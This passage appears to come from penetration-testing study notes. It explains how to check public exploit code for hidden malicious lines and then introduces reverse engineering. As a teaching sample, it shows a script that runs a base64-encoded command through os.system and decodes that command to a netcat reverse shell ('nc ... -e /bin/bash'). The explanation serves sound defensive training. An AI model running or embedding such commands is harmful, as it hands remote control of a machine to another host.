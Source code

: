 In those cases, take into consideration the possibility that a knowledgeable hacker that can develop this exploit probably has the skills necessary to add harmful code into it, with malicious intent, against anyone attempting to utilize the exploit.

Let’s assume we found a script from a less reputable source that claims to contain an exploit that was not found in any of the well-known databases and analyze in particular lines eight and ten of the following example of a harmful script:
``` python
1  #harmful script
2
3  import os
4  import base64
5
6  version = 1.2
7  url = "http://192.168.0.50/shellcode.bin"
8  check = "bmMgMTkyLjE2OC4wLjEwMCA0NDQ0IC1lIC9iaW4vYmFzaAo="
9
10  os.system(base64.b64decode(check))
11
12  def sendShellcode():
13  #download & prep shellcode
```

We see in line eight that a variable is defined, and in line ten that the same variable seems to be decoded using base64 and passed to **`os.system`** which will execute whatever the variable decodes to. If we were to decode it, we would find the following string that will later be run:

`nc 192.168.0.100 4444 -e /bin/bash`

This command will execute netcat, run bash, which is the command-line for Linux, and connect it to another host on the network, which will give the host control over the device that ran the script.

Publicly available exploitation codes exist for many different applications so it is highly likely you will be able to find one to use during a penetration test.

Typically, any application that the organization develops, maintains, or uses in-house will probably not have scripts freely available on the internet.

You may also find exploitation code difficult to find in the following situations:

- Recently patched version is no longer vulnerable to known exploits
- Uncommon/less known software and no publicly available exploits

For scenarios like these, you can use specific analysis techniques on compiled software to see if you can compromise any applications.

### Breaking Down A Program
---
Reverse engineering, as applied to software, is the process of breaking down a program into its base components in order to reveal more about how it functions. One example of reverse engineering is the attempt to analyze a program's implementation of digital rights management (DRM) copy protection mechanisms. If enough is learned about how the copy protection works at a lower level, it can be bypassed.

Even if you don't have access to an app's source code during your PenTest, you may be able to obtain the app's binaries or capture information about the app during execution. This can enable you to reverse engineer the app to look for potential weaknesses in design, programming, or implementation.
